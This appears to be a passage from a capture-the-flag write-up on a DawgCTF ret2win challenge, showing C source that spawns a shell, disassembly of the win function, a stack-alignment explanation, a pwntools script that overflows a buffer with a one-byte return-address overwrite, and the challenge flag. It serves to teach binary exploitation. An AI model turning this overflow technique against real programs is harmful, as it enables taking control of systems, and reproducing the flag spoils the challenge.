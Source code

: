 ```c
    system("/bin/sh");
}

void setup() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}
```

Here's the disassembly for `win`:

```bash
00000000004011be <win>:
  4011be:       f3 0f 1e fa             endbr64
  4011c2:       55                      push   rbp
  4011c3:       48 89 e5                mov    rbp,rsp
  4011c6:       48 8d 05 37 0e 00 00    lea    rax,[rip+0xe37]
  4011cd:       48 89 c7                mov    rdi,rax
  4011d0:       e8 9b fe ff ff          call   401070 <system@plt>
  4011d5:       90                      nop
  4011d6:       5d                      pop    rbp
  4011d7:       c3                      ret
```

We can see that the first byte of the first instruction after `mov rbp, rsp` is offset 8 bytes from the start of the function.

When we start our rop chain with the `ret` at the end of `vuln` the stack will be 8 byte aligned. This means that to return to `win` without misaligning the stack we must rop after the `push rbp` at the very least:

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./task", checksec=False)
context.binary = elf
p = elf.process()

payload = b"A" * 0x28
payload += p8((elf.symbols["win"] + 0x8) & 0xff)
p.send(payload)

p.interactive()
````

I encourage you try offsets of 0 and 8 yourself with a debugger to see what happens.

For the full source of this example see here https://github.com/rerrorctf/mini-ctf/tree/main/pwn/ret2win/ret2win_read_1_byte.

## Flag
`DawgCTF{C0ngR4tul4t10ns_d15c1p13_y0u_4r3_r34dy_2_pwn!}`

smiley 2025/04/19
